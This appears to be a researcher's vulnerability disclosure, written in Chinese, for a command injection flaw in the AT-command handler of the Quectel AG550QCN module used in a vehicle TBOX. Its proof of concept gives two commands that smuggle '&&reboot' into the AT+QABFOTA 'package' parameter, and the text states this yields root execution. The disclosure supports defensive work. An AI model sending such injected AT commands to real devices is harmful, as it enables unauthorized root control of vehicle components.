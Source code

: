 # 背景
```
        2022年，渗透测试某智能网联汽车，车型TBOX由均联智行开发，TBOX MPU中发现5G模组升级文件。拆包后，进行漏洞挖掘，发现存在多个漏洞，漏洞详情通过邮件发送给移远通信，他们修复后，让我们提交CVE。
```

# 漏洞描述：
```
        AG550QCN模组ql_atfwd对AT指令'AT+QABFOTA=“package”... '处理时，参数过滤不严格，存在命令注入漏洞，可以直接root权限执行任意命令，并反弹shell。
```

# 受影响模组基本信息：
```
        模组：AG550QCN
        模组系统版本：Linux sa515m 4.14.206-perf #1 PREEMPT Sat Jun 11 02:53:21 CST 2022 armv7l GNU/Linux
```


# 漏洞详情：

  1、at fwd程序 支持QABFOTA命令
  
  ![image](0.png)
  
  2、进入处理函数5AF4
  
  ![image](1.png)
  
  3、off_267C4是子功能列表，["reboot",func_reboot,"state",func_state…]
  
  ![image](2.png)
  
  3、分析package处理函数 sub_11B20+1
  
  ![image](3.png)
  
  4、system(s)函数，其中s直接引用用户的输入，没有做过滤

# POC：

## MPU执行下列命令，另4g module重启
`Echo 'AT+QABFOTA="package",1&&reboot' >/dev/ttyUSB1`
## 4G模组执行
`Ql_cmd at 'AT+QABFOTA="package",1&&reboot'`
5、进入模组使用strace分析，可以看到命令被添加到"sh","-c","fotainfo…" 中
![image](4.png)



###
cyber security researcher

sen.yuan@bangcle.com

